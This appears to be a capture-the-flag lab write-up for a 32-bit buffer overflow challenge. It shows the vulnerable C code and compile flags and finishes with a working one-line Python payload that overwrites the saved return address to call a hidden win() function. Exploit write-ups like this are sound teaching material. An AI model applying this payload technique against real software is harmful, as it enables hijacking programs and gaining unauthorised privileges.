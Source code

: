 # Mission0 ~ buffer overflow
## Goal and instructions
Connect to bin.chall.necst.it port 22 via SSH as user [USERNAME]. You will find the files in /home/[USERNAME]/mission0.

Your goal is to read the file flag with the privileges of the group that owns the vulnerable binary.
## compiled options
The executable program is compiled in 32bit, the stack is executable and the canary is inactive.
```
  gcc -fno-stack-protector -m32 -no-pie -O0 -o mission0 mission0.c
```
## Code overview
With the instruction system("cat flag") is possible to open the file flag with the same privileges as the vulnerable binary, this instruction is already in the following function, but it is never called. 
```
  void win()
  {
      puts("Please take your pizza");
      system("cat flag");
      exit(0);
  }
```
The code contains an additional control on the input string, which must contain the substring "pie!".
```
    if (strncmp(buf, "pie!", 4) == 0)
    {
        // A real fan. You can return back.
        puts("Every minute, every second, buy, buy, buy, buy, buy.");
        return 0;
    }
    else
    {
        // No way. I can't "return" from this point.
        puts("You're not a fan. You are imprisoned forever.");
        exit(1);
    }
```
> **note:** The buffer (input string) has a variable length for each student, 168 in our case.


## Solution
The exploit is a classical buffer overflow on the buffer, the goal is to overwrite the value saved in the save EIP register (function return address) with the address of the win() function.
> **note:** Saved eip is locate on EBP + 4

In order to write a valid exploit it is necessary to:
  * Find the win() function address in the executable, with the following command:
  ```
    objdump -d mission0 Mintel
  ```
  \xcb\x84\x04\x08 in hex in our case.
  * Include the required substring in the input buffer (pie! wrote in hex is \x70\x69\x65\x21).
  * Locate the buffer address on the stack, and measure the distance from the EIP, this distance will be filled with nop operations (or other characters).

The final exploit must include, in order, the required substring, enough character to overwrite the save EIP and the jumping address as follow:
```
  python -c "print '\x70\x69\x65\x21' + '\x90' * 173 + '\xcb\x84\x04\x08'" | ./mission0
```